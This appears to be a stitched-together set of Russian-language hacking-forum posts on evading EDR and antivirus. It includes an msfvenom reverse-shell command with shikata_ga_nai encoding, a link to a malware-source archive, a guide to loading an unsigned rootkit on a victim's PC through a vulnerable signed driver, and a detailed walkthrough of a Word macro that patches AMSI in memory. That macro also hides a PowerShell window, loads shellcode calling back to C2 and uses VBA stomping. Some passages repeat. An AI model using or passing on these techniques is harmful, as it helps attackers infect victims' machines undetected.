Пример того, как EDR может использовать драйверы minifilter и обратные вызовы ядра, - вызов PspCreateProcessNotifyRoutine для активации EDR для загрузки его DLL в режиме пользователя в созданные процессы, в котором он может выполнять перехват системного вызова, а затем использовать функциональность драйвера minifilter для мониторинга запросов файловой системы ввода-вывода этим вновь созданным процессом.
Сетевые IoC
Процессы, устанавливающие сетевые соединения, вызывают большее подозрение из-за возможности соединения с сервером C&C, контролируемым атакующим. Соединения с сетью будут отслеживаться EDR, и будет сгенерировано предупреждение, когда процесс, который обычно не использует сетевое соединение, начнет это делать. Например, если была выполнена инъекция в процесс notepad.exe, и он начал соединяться с интернетом, это считается высоко подозрительным. Кроме того, анализируются аспекты сетевого соединения, такие как целевой IP-адрес, доменное имя, номер порта и сетевой трафик.
Обход EDR
Обход EDR может быть сложным сначала и требует группы методов и техник, а не полагания на один подход. Причина, по которой требуются несколько методов, заключается в том, что EDR использует более одной техники для мониторинга процесса.
Иногда могут потребоваться несколько реализаций для решения одной и той же проблемы.
Важно помнить, что некоторые техники обхода EDR позволяют загрузчику избежать обнаружения, но не используемой в нем полезный нагрузка C&C. Это может быть связано с несколькими причинами:
Аномалии сети C&C хорошо известны и подписаны EDR. Загрузчик использует прямые/косвенные системные вызовы и успешно избежал обнаружения, но полезная нагрузка C&C этого не делает и по-прежнему использует подключенные функции.
Полезная нагрузка C&C выполнила детектируемую команду, либо намеренно, либо ненамеренно. Такие команды привлекут внимание EDR, и ваша реализация будет обнаружена (например, запустите cmd.exe и выполните команду whoami).
C&C использует узнаваемые именованные дескрипторы IPC или открывает конкретные (напомним, что IPC - это мьютексы, семафоры, сокеты). Например, выполнение команды "load powershell" с использованием Meterpreter приводит к следующему.
По таким и многим другим причинам будет много случаев, когда ваша реализация успешно установит соединение с вашим сервером C2, но будет обнаружена при выполнении некоторых конкретных команд. Поэтому выбор вашего C2 является важным решением для уклонения во время выполнения. Всегда рекомендуется использовать гибкую и поддающуюся модификации структуру C2, а не ограниченную.
Про детект в памяти. Ничего не поделаешь и это неизбежно)
Всем привет!
Хотел ещё добавить:
Вот в этой теме:Обход EDRs.Последняя тема цикла | Цикл статей "Изучение вредоносных программ"
Был поднят вопрос детекта памяти, да можно использовать такие штуки:Открываем врата ада | Цикл статей "Изучение вредоносных программ"
Но тем не менее важно что-бы сама нагрузка тоже не палилась, в теме про EDR про это сказано.
Также неплохо, при проектировании вашего основного зверька или полезной нагрузки учитывать методы антиотладки и морфинга самой полезной нагрузки.
Это можно делать прям в памяти, перед запуском, вот например я использовал такой механизм в крипторе:Run_pe_cryptor_frame/modules/simple_mutate_pe at master · XShar/Run_pe_cryptor_frame
На вход подаётся бинарный код, на выходе по возможности мутируются, т.е. меняются опкоды на аналоги.
Уже какие-то антивирусы могут не детектить, всё зависит от настройки эвристики антивируса.
Также если у вас есть исходный код нагрузки, можете использовать различные приёмы генерации мусорного кода, например вот:GitHub - XShar/super_gen_trash_c: Генерация кода на си
Техники задержек и прочее как в темах Черпаем силы в антиотладке | Цикл статей "Изучение вредоносных программ" и Уменьшение вероятности детекта зверька | Цикл статей "Изучение вредоносных программ"
Если вы-же генерируете нагрузку фреймворками, то обязательно включайте опции обфускации и защиты, вот примеры:
Здесь -e x86/shikata_ga_nai указывает использовать кодировщик shikata_ga_nai, а -i 3 указывает применить кодировщик 3 раза.
shikata_ga_nai — это один из наиболее популярных кодировщиков в Metasploit. Его название происходит от японского выражения "仕方がない", что можно перевести как "ничего не поделаешь" или "это неизбежно".
В контексте Metasploit, shikata_ga_nai используется для обфускации шеллкода с целью избежать обнаружения антивирусами или IDS/IPS системами. Этот кодировщик использует полиморфную технику, что означает, что каждый раз, когда он используется, он генерирует уникальный обфусцированный шеллкод, даже если исходный шеллкод остается неизменным.
Вот некоторые особенности shikata_ga_nai:
Итог:
Для обхода детекта в памяти и детекта по поведению, сама нагрузка и итоговый зверек должен быть чистым.
Все остальные инструменты помогают сделать запуск зверька скрытым, но не позволяют избежать поведение связанное с запущенным вредоносным кодом.)
Хотел ещё добавить:
Вот в этой теме:Обход EDRs.Последняя тема цикла | Цикл статей "Изучение вредоносных программ"
Был поднят вопрос детекта памяти, да можно использовать такие штуки:Открываем врата ада | Цикл статей "Изучение вредоносных программ"
Но тем не менее важно что-бы сама нагрузка тоже не палилась, в теме про EDR про это сказано.
Также неплохо, при проектировании вашего основного зверька или полезной нагрузки учитывать методы антиотладки и морфинга самой полезной нагрузки.
Это можно делать прям в памяти, перед запуском, вот например я использовал такой механизм в крипторе:Run_pe_cryptor_frame/modules/simple_mutate_pe at master · XShar/Run_pe_cryptor_frame
На вход подаётся бинарный код, на выходе по возможности мутируются, т.е. меняются опкоды на аналоги.
Уже какие-то антивирусы могут не детектить, всё зависит от настройки эвристики антивируса.
Также если у вас есть исходный код нагрузки, можете использовать различные приёмы генерации мусорного кода, например вот:GitHub - XShar/super_gen_trash_c: Генерация кода на си
Техники задержек и прочее как в темах Черпаем силы в антиотладке | Цикл статей "Изучение вредоносных программ" и Уменьшение вероятности детекта зверька | Цикл статей "Изучение вредоносных программ"
Если вы-же генерируете нагрузку фреймворками, то обязательно включайте опции обфускации и защиты, вот примеры:
1. Metasploit
Metasploit также предоставляет различные кодировщики для обфускации payload. Например:
C:
msfvenom -p windows/shell_reverse_tcp LHOST=ВАШ_IP LPORT=4444 -f c -e x86/shikata_ga_nai -i 3Здесь -e x86/shikata_ga_nai указывает использовать кодировщик shikata_ga_nai, а -i 3 указывает применить кодировщик 3 раза.
shikata_ga_nai — это один из наиболее популярных кодировщиков в Metasploit. Его название происходит от японского выражения "仕方がない", что можно перевести как "ничего не поделаешь" или "это неизбежно".
В контексте Metasploit, shikata_ga_nai используется для обфускации шеллкода с целью избежать обнаружения антивирусами или IDS/IPS системами. Этот кодировщик использует полиморфную технику, что означает, что каждый раз, когда он используется, он генерирует уникальный обфусцированный шеллкод, даже если исходный шеллкод остается неизменным.
Вот некоторые особенности shikata_ga_nai:
- Полиморфизм: Каждое обфусцирование уникально.
- Размер: Кодировщик может генерировать шеллкоды разного размера, что может быть полезно для эксплуатации различных уязвимостей.
- Динамическая настройка ключа: shikata_ga_nai использует динамически изменяющийся ключ для кодирования данных, что делает его сложнее для статического анализа.
- Регистровая независимость: Кодировщик спроектирован таким образом, чтобы не зависеть от конкретных регистров, что увеличивает вероятность успешного выполнения шеллкода в различных условиях.
2. Veil
Veil — это инструмент для создания обфусцированных payloads, чтобы избежать обнаружения.Создание и морфинг payload:
После установки Veil, запустите его:
C:
Veil.pyИтог:
Для обхода детекта в памяти и детекта по поведению, сама нагрузка и итоговый зверек должен быть чистым.
Все остальные инструменты помогают сделать запуск зверька скрытым, но не позволяют избежать поведение связанное с запущенным вредоносным кодом.)
Огромная база исходников современных вирусов для разных платформ
Весь исходный код, который упакован, может быть или не быть установлен с паролем 'infected' (без кавычек). Отдельные файлы, вероятно, не упакованы.
Структура каталогов:
Зеркало с Мега:
Структура каталогов:
- Android
- Generic Android OS malware, some leaks and proof-of-concepts
- Engines
- BAT
- Linux
- VBS
- Win32
- Java
- Some java infectors, proof-of-concept ransomware
- Javascript
- In-browser malware
- Legacy Windows
- Win2k
- Win32
- Win95
- Win98
- Win9x
- WinCE
- Libs (libraries)
- Bootkits
- DDoS proof-of-concepts
- Win32 libraries (disassemblers, etc).
- Linux
- Backdoors
- Botnets
- Infectors
- Mirai-Family (related and/or spin-offs)
- Rootkits
- Tools
- Trojans
- MSDOS
- MSIL
- MacOS
- Other
- Acad malware
- FreeBSD malware
- SunOS malware
- Symbian OS malware
- Discord-specific malware
- PHP
- Albania family
- C99 family
- Crewcorp family
- Defacement Tools
- PHP Infectors
- Lanker family
- Macker family
- PhpSpy family
- R57-shell family
- Panel (web panel collections)
- Perl
- Various backdoors, hack tools, and infectors
- Phishing
- Collection of various phishing pages
- Point of Sales malware
- Python
- Hacktools, various exotic-malware (such as chastity belt ransomware)
- Ruby
- Win32
- Binders
- Botnets
- Crypters
- Exploit kits
- Infectors
- Internet worms
- Malware families
- Ransomware
- Rootkits
- Stealers
Зеркало с Мега:
Как RootKit загрузить или же как загрузить драйвер без подписи
Для начала давайте разберемся что такое RootKit?
RootKit - это тип вредоносного программного обеспечения, который предоставляет хакерам доступ к целевым компьютерам. RootKit может скрывать свое присутствие, но оставаться активным. Как только они получают несанкционированный доступ к компьютерам, RootKit позволяют киберпреступникам красть личные данные и финансовую информацию, устанавливать вредоносное программное обеспечение или использовать компьютеры как часть ботнета для распространения спама и участия в DDoS-атаках.
Название “RootKit” происходит от операционных систем Unix и Linux, где наиболее привилегированный аккаунт администратора называется “root”. Приложения, которые позволяют несанкционированный доступ root или admin к устройству, известны как "kit".
Для того что бы RootKit смог запуститься на пк жертвы, есть 2 варианта:
Для второго варианта нам потребуется kdmapper, для примера можем взять этот GitHub - TheCruZ/kdmapper: KDMapper is a simple tool that exploits iqvw64e.sys Intel driver to manually map non-signed drivers in memory
Данные варианты работают как на Win10, так и на Win11 (думаю на ОС версии ниже они тоже должны работать).
После того как у вас есть RootKit, вы можете перевести его в байты с помощью HxD, что бы вставить прям в маппер для удобства.
1 скриншот если не ошибаюсь, это уязвимый драйвер, а 2 наш руткит.
Далее дописываем сурс маппера так, что бы он дропал данные файлы в TEMP папку.

Получается примерно такое.
Далее просто запускаем на пк жертвы наш маппер и он сделает всё остальное за вас.
На этом всё, я упустил много вещей в статье, но думаю кому надо, тот сможет разобраться в этом.
Возможно если будет желание, то я напишу 2 часть по созданию RootKit'a, но это вряд-ли будет скоро, ибо я сам не совсем разбираюсь в создании драйверов и это был мой первый опыт в написании руткитов.
Также есть готовые руткиты для винды, например вот, список:
Последний кстати прикольный, вот его функции:
В качестве дополнения мапер:GitHub - TheCruZ/kdmapper: KDMapper is a simple tool that exploits iqvw64e.sys Intel driver to manually map non-signed drivers in memory
Вот ещё относительно свежий
Вот ещё интересный сэмпл с защитой процесса от закрытия
RootKit - это тип вредоносного программного обеспечения, который предоставляет хакерам доступ к целевым компьютерам. RootKit может скрывать свое присутствие, но оставаться активным. Как только они получают несанкционированный доступ к компьютерам, RootKit позволяют киберпреступникам красть личные данные и финансовую информацию, устанавливать вредоносное программное обеспечение или использовать компьютеры как часть ботнета для распространения спама и участия в DDoS-атаках.
Название “RootKit” происходит от операционных систем Unix и Linux, где наиболее привилегированный аккаунт администратора называется “root”. Приложения, которые позволяют несанкционированный доступ root или admin к устройству, известны как "kit".
Для того что бы RootKit смог запуститься на пк жертвы, есть 2 варианта:
- Заплатить от 150$ за подпись драйвера
- Использовать маппер который с помощью уязвимого драйвера (на котором уже есть подпись) загрузит ваш RootKit.
Для второго варианта нам потребуется kdmapper, для примера можем взять этот GitHub - TheCruZ/kdmapper: KDMapper is a simple tool that exploits iqvw64e.sys Intel driver to manually map non-signed drivers in memory
Данные варианты работают как на Win10, так и на Win11 (думаю на ОС версии ниже они тоже должны работать).
После того как у вас есть RootKit, вы можете перевести его в байты с помощью HxD, что бы вставить прям в маппер для удобства.
1 скриншот если не ошибаюсь, это уязвимый драйвер, а 2 наш руткит.
Далее дописываем сурс маппера так, что бы он дропал данные файлы в TEMP папку.
Получается примерно такое.
Далее просто запускаем на пк жертвы наш маппер и он сделает всё остальное за вас.
На этом всё, я упустил много вещей в статье, но думаю кому надо, тот сможет разобраться в этом.
Возможно если будет желание, то я напишу 2 часть по созданию RootKit'a, но это вряд-ли будет скоро, ибо я сам не совсем разбираюсь в создании драйверов и это был мой первый опыт в написании руткитов.
Также есть готовые руткиты для винды, например вот, список:
Последний кстати прикольный, вот его функции:
- DSE Bypass (No need to turn test signing on)
- KPP Bypass
- Hide processes
- Hide ports (TCP/UDP)
- Process permission elevation
- Process protection
- Shellcode injector (Unkillable shellcode. Even if process dies, shellcode can still run)
- (TODO) Hide files/directories
- (TODO) Hide registry keys
- Process hiding and unhiding
- Process elevation
- Process protection (anti-kill and dumping)
- Bypass pe-sieve
- Thread hiding
- Thread protection (anti-kill)
- File protection (anti-deletion and overwriting)
- File hiding
- Registry keys and values protection (anti-deletion and overwriting)
- Registry keys and values hiding
- Querying currently protected processes, threads, files, registry keys and values
- Arbitrary kernel R/W
- Function patching
- Built-in AMSI bypass
- Built-in ETW patch
- Process signature (PP/PPL) modification
- Can be reflectively loaded
- Shellcode Injection
- APC
- NtCreateThreadEx
- DLL Injection
- APC
- NtCreateThreadEx
- Querying kernel callbacks
- ObCallbacks
- Process and thread creation routines
- Image loading routines
- Registry callbacks
- Removing and restoring kernel callbacks
- ETWTI tampering
В качестве дополнения мапер:GitHub - TheCruZ/kdmapper: KDMapper is a simple tool that exploits iqvw64e.sys Intel driver to manually map non-signed drivers in memory
Вот ещё относительно свежий
Вот ещё интересный сэмпл с защитой процесса от закрытия
Обход AMSI
Очень познавательная статья с Хакера:О6фy$kация. Обходим детект вредоносных макросов Word
И это ответ тем, кто считает что скриптами нельзя делать низкоуровневые вещи, можно всё при должном умении и знании...)
Казалось бы, макровирусы давно и безвозвратно ушли в прошлое. Уж что‑что, а вредоносные макросы в документах Office современные антивирусные программы должны обнаруживать легко и непринужденно. Именно так и обстоят дела, если макрос, конечно, не обфусцирован. Эффективными приемами обхода антивирусного детекта зловредных VBA-макросов поделился в своей публикации независимый исследователь Брендан Ортиз, а мы расскажем о его изысканиях тебе.
Готовясь к сертификации OSEP, Брендан Ортиз наверняка выпил ведро кофе и перелопатил гигабайты технической документации. Насчет кофе мы не уверены, а вот то, что результатом этой подготовки стало масштабное и подробное исследование способов закладки VBA-макросов в самые обычные документы Word, не подлежит никакому сомнению. Брендан убедился, что на сайте antiscan.me (альтернатива virustotal.com) оригинальный файл обнаруживался как минимум 7 антивирусными движками из 20. Тогда он всерьез взялся за обфускацию своих художеств и смог в итоге сбить показатель детектирования до 2 из 20. Поскольку антивирусные базы периодически обновляются, со временем этот параметр вырос с 2 до 5. Но все равно — результат получился впечатляющий.
Проверка эмуляции
Многие антивирусы, использующие для детектирования вредоносов эвристику, запускают VBA-скрипты в «песочнице» с целью убедиться в их безопасности. Потому настоящие вирусописатели в первую очередь проверяют, работает ли их сценарий в эмулированной среде, и, если так — останавливают выполнение вредоносного пейлоада, чтобы антивирус не забил тревогу.
Брендан Ортиз предложил три простых теста для определения эмулятора. Эти тесты располагаются в самом начале созданного им макроса и не позволяют ему выполнить никаких зловредных действий, если обнаружится, что скрипт запущен в изолированной среде.

Первый тест исследователь назвал «Document Name». Во многих случаях, когда антивирусный движок эмулирует выполнение макроса VBA, он меняет имя документа либо добавляет к этому имени некоторое число, чтобы отследить и предотвратить многократный запуск скрипта. Этот тест проверяет, совпадает ли с именем оригинального документа имя того документа, в котором выполняется полезная нагрузка.
Чтобы зашифровать статическую строку, в которой хранится имя документа, используется сценарий PowerShell, а затем во время выполнения скрипта для ее расшифровки вызывается собственная функция Joy. Если имя активного документа не совпадает с указанным именем, проверка считается непройденной и выполняется выход из подпрограммы.
На втором этапе проверяется путь. Если мы заранее знаем, из какой папки будет открыт документ с вредоносным сценарием (например, из папки «Загрузки» пользователя Windows), то мы можем сравнить ее с текущим путем. Несовпадение пути укажет на то, что скрипт, скорее всего, работает в антивирусном движке. В этом случае мы также выходим из подпрограммы.
Наконец, простой тест на время. Когда скрипт выполняется в эмуляторе антивируса, тот обычно пропускает фрагменты кода, в которых реализована пауза или «засыпание», иначе любящие «поспать» макровирусы попросту завесят движок. Поэтому Брендан предложил следующую нехитрую проверку: фиксируем актуальное время, «спим» две секунды, а затем просыпаемся и вновь фиксируем время. Если разница между двумя этими значениями составит менее 2 секунд, скорее всего, мы в антивирусном движке. В этом случае подпрограмма также завершается.
Если все три проверки завершились полным и безоговорочным успехом, макрос переходит к выполнению полезной нагрузки, которая выглядит примерно так, как показано на следующем рисунке.

Несколько слов об AMSI
В ходе своих экспериментов Брендан Ортиз выяснил, что поначалу его вредоносный макрос успешно детектировался эвристикой большинства антивирусных движков. Кроме того, несмотря на многочисленные попытки исследователя запустить макрос при включенной защите Windows Defender, система убивала скрипт. По какой же причине макрос помечался как вредоносный? Все дело в том, что интерфейс Anti-Malware Scan Interface (AMSI) заглядывает в сценарий VBA и контролирует его поведение.

AMSI — это разработанный Microsoft интерфейс, который приспособлен к работе с любыми антивирусами и позволяет им запрашивать информацию о процессах, происходящих во время исполнения программ. Это значит, что антивирусу передаются даже бесфайловые угрозы, например команды PowerShell, если антивирус вызывает AMSI. Еще это означает, что ты можешь как угодно обфусцировать полезную нагрузку, но как только она деобфусцируется во время выполнения, AMSI начнет отслеживать поведение кода.
Когда пользователь пытается выполнить команду в PowerShell, AMSI сначала загружает, а затем проверяет эту команду. Если обнаруживаются какие‑либо элементы, которые обычно используются для вредоносных действий, в частности, вызовы API Win32 или COM (то есть, срабатывают заложенные в AMSI «триггеры»), то AMSI приостанавливает подозрительный процесс.
На картинке ниже показано, как VBA интегрируется с AMSI. С учетом всего этого исследователь стал искать способы ускользнуть от пристального внимания AMSI при выполнении скриптов VBA и PowerShell.

Импорт Windows API в VBA
Начать Брендан решил с импорта функций. Чтобы пропатчить AMSI в памяти, необходим доступ к некоторым низкоуровневым библиотекам и функциям Windows. В VBA разрешено импортировать API Windows для использования в макросе. Такая возможность радикально расширяет функционал VBA.
Злоумышленник, вызывая определенные API Windows из VBA, C#, PowerShell и т. д., должен хорошенько в них разобраться, чтобы все сделать правильно. Дело в том, что нативные функции для этих целей в соответствующих языках отсутствуют. Но вооружившись некоторыми «подготовительными знаниями», заполнить эти пробелы довольно легко. Когда ты знаешь, какие API Windows хочешь импортировать, для начала обязательно погугли соответствующую документацию Microsoft. Там ты найдешь подробную информацию об интересующей тебя функции, в частности, каковы ее возвращаемые значения, какие параметры она принимает, в какой DLL находится интересующий тебя API и т. д. Так ты получишь по‑настоящему хорошее представление о событиях, происходящих «под капотом» скрипта.
Брендан использовал в своем макросе объявление PInvoke (Platform-Invoke, «Платформенный вызов»). PInvoke – это коллекция определений для вызова нативных функций API Windows из языков программирования, в которых может отсутствовать такой низкоуровневый функционал. Особенности работы этого инструмента подробно описаны вот на этом сайте. Там можно найти декларации для импорта API в различные сценарии на все случаи жизни.
Обход AMSI
Импорт необходимых API Windows в VBA — это только первый шаг. Чтобы придуманный Бренданом Ортизом скрипт работал, нужно обойти AMSI. Для этого исследователь решил пропатчить AMSI прямо в памяти. А конкретнее, пропатчить первые несколько байтов в функциях AmsiScanBuffer и AmsiScanString из библиотеки Amsi.dll, загружаемой из запущенного процесса. Эти функции, если верить документации Microsoft, отвечают за сканирование содержимого буфера в поисках характерных для малвари строк.

Сначала объявляется список указателей переменных для хранения адресов функций. Затем в переменной lib сохраняется адрес из библиотеки amsi.dll, это делается при помощи направляемого к API Windows вызова LoadLib. Все строки в этом патче памяти AMSI должны быть обфусцированы. На первом этапе автор скрипта использовал для этого функцию VBA Chr(), чтобы скрыть некоторые характерные строки вроде amsi.dLl и AmsiUacInitialize.
Затем нужно найти, где лежит функция AmsiScanString. Для этого Брендан использовал функцию Windows API GetProcAddress, переименованную в GetPrAddr. Поскольку AMSI еще не пропатчен, а вредоносы часто пытаются отключить его, нацеливаясь на функции AmsiScanString и AmsiScanBuffer, автор скрипта воспользовался относительной адресацией начиная с функции AmsiUacInitialize.
Для начала Брендан вычел 96 из адреса функции AmsiUacInitialize и сохранил результат в переменной func_addr. Затем вызвал GetPrAddr со строками‑аргументами, первая из которых – это адрес amsi.dll, а вторая – строка AmsiUacInitialize, к которой применена обфускация. Зачем вычитать 96? Всё очень просто: Брендан прошелся по процессу Microsoft Word отладчиком WinDbg и выяснил, что адрес функции AmsiScanString отстоит на 96 байтов от функции AmsiUacInitialize.
Если просмотреть в WinDbg содержимое загруженной в память библиотеки AMSI.dll начиная с функции AmsiScanBuffer, расположенной по адресу 0x100 в шестнадцатеричной системе (256 байтов в десятичной), то можно увидеть, как выглядит верхняя часть вывода.

Стрелка указывает на первые опкоды в функции AmsiScanBuffer, а слева показан ассоциированный с этой инструкцией адрес в памяти: 0x00007ffa054f35e0. Следовательно, функция AmsiScanBuffer начинается именно в этой точке. Изучив вывод далее, можно найти следующую функцию — AmsiScanString, и выяснить ее адрес: 0x00007ffa054f36e0.

Далее Брендан отыскал в выводе отладчика значение переменной func_addr, которую загрузил в свой макрос VBA при помощи функции GetPrAddr. В этой переменной находится адрес функции AmsiUacInitialize: 0x00007ffa054f3740.

Все, что осталось сделать автору скрипта, — это просто вычесть из адреса функции AmsiUacInitialize адреса функций AmsiScanString и AmsiScanBuffer. Так будут получены относительные адреса последних.
0x054f3740 (AmsiUacInitialize Start Address) - 0x054f36e0 (AmsiScanString Start Address) = 0x60 = 96 bytes
0x054f3740 (AmsiUacInitialize Start Address) - 0x54f35e0 (AmsiScanBuffer Start Address) = 0x160 = 352 bytes
Следующая часть созданного Бренданом Ортизом макроса меняет защитные механизмы памяти и порядок доступа к ней целевых функций. Это делается при помощи API-функции VirtualProtect, которую автор переименовал в VirtPro.

Функция VirtualProtect меняет характеристики защиты в области виртуальной памяти, которая относится к адресному пространству вызывающего процесса. С ее помощью можно изменить показатели защиты для конкретного участка памяти (с атрибутами «только для чтения» или «для исполнения»), в результате чего появляется возможность редактировать расположенные там инструкции.
VirtualProtect принимает следующие параметры: адрес того места, которое нужно отредактировать (это адрес интересующей нас функции), размер области памяти, которую требуется редактировать (32 байта от начала адреса), уровни защиты памяти, которые требуется обеспечить (передается в виде значения, которое будет обрабатываться при помощи побитовой операции AND). Наконец, в сценарии содержится переменная flOldProtection. Функция сохраняет в эту переменную старое значение параметров защиты памяти – для последующего использования.
Получив доступ к чтению и записи тех областей памяти, что предназначены только для записи, Брендан перешел непосредственно к пропатчиванию AMSI. Для этого он использовал WinAPI-функцию RtlFillMemory. Такие функции, как RtlMoveMemory, часто используются вредоносами, поэтому легко обнаруживаются эвристикой антивирусов. А вот RtlFillMemory – не самый частотный вариант, из‑за чего ее могут и не сэмулировать движки, работа которых основана на эвристике. Да и при статическом анализе антивирусы далеко не всегда обращают на нее внимание. Брендан переименовал эту функцию в patcher.

В скрипте выполняется вызов функции RtlFillMemory по псевдониму patcher, ей передаются адреса функций AmsiScanString и AmsiScanBuffer. Затем нужно указать, сколько байтов требуется заполнить, и, наконец, передать шестнадцатеричное значение кода операции, которое требуется туда добавить: 0x90 — это код NOP, он ничего не делает. Затем выполняется то же действие, но с увеличением адреса на 1, при этом функции передается код операции return, который равен 0xc3.
В результате в начале функции AmsiScanString будет поставлен неоперационный код 0x90, а после него – код возврата 0xC3, и эта функция просто завершится сразу после того, как будет вызвана, что позволит обойти AMSI в VBA. Вот как выглядит выполнение функции AmsiScanString после применения патча в отладчике WinDbg.

Все, что остается – повторить весь процесс для функции AmsiScanBuffer, смещение для которой уже известно. Тут стоит отметить, что есть и более изощренные способы сделать это, например, динамически искать начальные байты каждой функции, как только адрес Amsi.dll будет загружен в память. Кроме того, есть некоторые отличия в процессе патча библиотеки в 32-разрядной и 64-разрядной версиях Word.
На некоторых сайтах можно встретить описания способов обхода AMSI на VBA с использованием совершенно иных, альтернативных методов, не требующих взаимодействия с API Windows. Правда, некоторые из них требуют записывать на диск файлы и с этим можно влипнуть. Примеры на эту тему можно найти в следующем Git-репозитории.
Обфускация строк
Поскольку созданный Бренданом Ортизом VBA-скрипт использует WMI-объект для порождения процесса PowerShell, он неизбежно привлечет повышенное внимание любого антивирусного движка. Наиболее очевидным решением этой проблемы является шифрование статических строк внутри макроса.
Например, при создании объекта WMI используются такие строки, как winmgmts:, Win32_ProcessStartup, Win32_Process и им подобные. При статическом сканировании макроса эти строки будут идеальными мишенями для антивируса, он просто неизбежно пометит их как вредоносные. Брендан использовал следующий метод обфускации.

Он объявил переменную, в которой будут сохраняться статические строки, присутствующие в макросе VBA. Затем он объявил выходную переменную, в которой будет содержаться зашифрованная строка. После этого он преобразовал полезную нагрузку из строковой переменной в символьный массив. Затем десятичное значение каждого символа суммируется со значением 26. Далее он забил символ дополнительными нулями, чтобы позже, в процессе деобфускации VBA, получились предсказуемые 3-символьные значения. Если длина вывода составляет 1 символ, то к нему добавляется два нуля, если длина – два символа, добавляется один ноль, а если три символа, ничего не добавляется.
Таким образом формируется зашифрованная выходная строка, которая отправляется в буфер обмена через конвейер. После запуска скрипта в буфер обмена помещается строка примерно следующего содержания.

Деобфусцирующий макрос в VBA выглядит примерно так.

В скрипте создаются подпрограммы со случайными именами, которые не выдадут антивирусному сканеру, что процедура может быть вредоносной, а также запутают любого аналитика, которому попадет в руки такой макрос. В VBA подпрограмма вызывается при помощи инструкции, которая имеет примерно следующий вид.

Сначала зашифрованная полезная нагрузка поступает в подпрограмму Joy и запускает цикл Do While. Затем она отправляется в подпрограмму Man, извлекающую первые 3 числа (вот зачем понадобилось заполнение нулями), после чего передает эти символы функции bread. Она вычтет 26 из 3 символов, чтобы получить конкретное дешифрованное число. Это число является ASCII-эквивалентом символа и сохраняется в переменной green.
Далее вся зашифрованная полезная нагрузка отправляется функции rand, которая удаляет из нее первые три символа и сохраняет их обратно в переменную paper. Затем процесс повторяется до тех пор, пока вся полезная нагрузка не редуцируется до нуля.
Наконец, дешифрованная полезная нагрузка возвращается вызывающей процедуре при помощи инструкции Joy = green.
Выполнение PowerShell при помощи WMI
Далее необходимо запустить экземпляр процесса PowerShell при помощи WMI. Для этого создается объект WMI посредством вызова функции VBA GetObject с зашифрованной строкой winmgmts:, результат сохраняется в переменной ObjWMIService.
После этого вызывается функция Get из объекта WMI Service с зашифрованной версией строки Win32_ProcessStartup и сохраняется в переменную objStartup. Это позволяет задать параметры запуска для создаваемого скриптом процесса PowerShell. Следующие действия направлены на то, чтобы спрятать окно PowerShell (для этого значение переменной objConfig.showWindow устанавливается в 0) — пользователь даже не узнает, что в фоновом режиме выполняется какой‑то скрипт.
Созданному процессу передаются заранее сформированные параметры и настройки в виде нескольких сцепленных строк. Весь ход создания объекта WMIObject выглядит примерно так.

Полезная нагрузка PowerShell
Прежде чем запустить вредоносную команду PowerShell, необходимо отключить AMSI. Поскольку инстанс PowerShell порождается в отдельном процессе, здесь возникает загвоздка с еще одним случаем интеграции AMSI, который придется обойти прежде, чем скрипт начнет какую‑либо вредоносную активность.
Работа макроса начинается с отключения AMSI в VBA, чтобы во время исполнения система не пометила содержимое макроса как вредоносное.
Для этого объявляются три разные строки — str1,str2 и str3, а затем им передается в качестве значения полезная нагрузка, которую нужно прогнать через объект WMI (процесс создания этого объекта был описан выше). Это сделано ради удобочитаемости и пригодности к отладке: разделив полезную нагрузку на фрагменты, можно выявить, где именно она прекращает выполняться.
Первая строка (str1) получает в качестве нагрузки зашифрованную версию кода:
Powershell.exe -ep bypass -nop -c
Если не удается создать процесс PowerShell при выполнении макроса, то уже известно, что проблема заключается в первом зашифрованном фрагменте.
Вторая строка (str2) получает в качестве нагрузки следующий зашифрованный код:
Эта строка – зашифрованный обход AMSI. Шифрование выполнено по основанию 64, так как при переводе с VBA на PowerShell могут возникнуть проблемы при передаче специальных символов. В декодированном виде обход укладывается в одну строку, а в несвернутом выглядит примерно так.

Если будет получено уведомление Microsoft Defender о блокировке скрипта на данном этапе, станет очевидно, что обход не удался. Если не удастся установить соединение с веб‑сервером для скачивания полезной нагрузки, но сам скрипт PowerShell запустится успешно, это также будет означать, что проблема возникла именно здесь.
Третья строка (str3) получает в качестве нагрузки такой код:
Так извлекается первая часть полезной нагрузки, загрузчик шелл‑кода, который будет загружать байт‑код со стадии 2 и выполнять его непосредственно в памяти.
Загрузчик шелл-кода
После запуска из PowerShell скрипт скачивает сгенерированный шелл‑код, а затем, воспользовавшись рефлексией, загружает функции Windows API, эквивалентные VirtualAlloc, CreateThread и WaitForSingleObject.
Сгенерированный шелл‑код использует загруженные API Windows, чтобы выполнить код в текущем процессе PowerShell. Это и называется рефлексией, в ходе нее функции создаются и загружаются в память. Есть причина, по которой нужно действовать именно так, а не использовать, например, функцию add-type из арсенала PowerShell.
Дело в том, что Add-Type создает временный файл и сохраняет его на диск. Такой файл – это артефакт, по которому вирусный аналитик может догадаться, что в системе происходит что‑то нехорошее. Кроме того, такой файл может быть замечен и просканирован антивирусными движками, когда он уже сохранен на диск.
В итоге, созданный Бренданом Ортизом скрипт принял следующий вид:
При исполнении шелл‑код выполняет обратный вызов к серверу C2, а затем возвращает управление шелл‑коду.

Стомпинг VBA
Остается последний этап — стомпинг VBA. Это акт удаления частично сжатой версии исходного кода VBA, сохраненного в документе – так, что остается только предварительно скомпилированный код. Когда документ открывают на целевой машине в той же версии Word, для которой создавался скрипт, код VBA не компилируется заново — вместо этого выполняется сохраненный макрос VBA.
Таким образом, если нам заблаговременно известно, с какой версией VBA будет выполняться наш макрос, мы можем удалить из документа исходный код и оставить только скомпилированный. Благодаря этому радикально сужается возможность анализа кода и снижается вероятность его обнаружения антивирусом.
Для такой работы особенно хорош инструмент EvilClippy, который даже позволяет заменить нескомпилированный макрос VBA безвредной версией VBA-кода. Таким образом, ты можешь заменить вредоносный макрос на код, который пишет "Hello World!". Когда документ будет открыт, выполнится и вредоносный макрос, если версия Office – именно та, для которой он компилировался. Все вышеперечисленное EvilClippy может выполнить при помощи единственной строки кода, выглядящей примерно так:
В результате выполнения команды в папке с исходным файлом создается новый документ, к имени которого добавлена строка _EvilClippy.

Обрати внимание, насколько два этих файла отличаются по размеру. Теперь остается только загрузить вредоносный документ на antiscan.me и посмотреть, сколько антивирусных движков распознают его как вредоносный. В данном случае обязательно пользоваться antiscan.me, а не VirusTotal, поскольку первый из этих двух сайтов не передает вредоносную нагрузку антивирусным компаниям для ее добавления в базы сигнатур.
Выводы
А вот и результат!

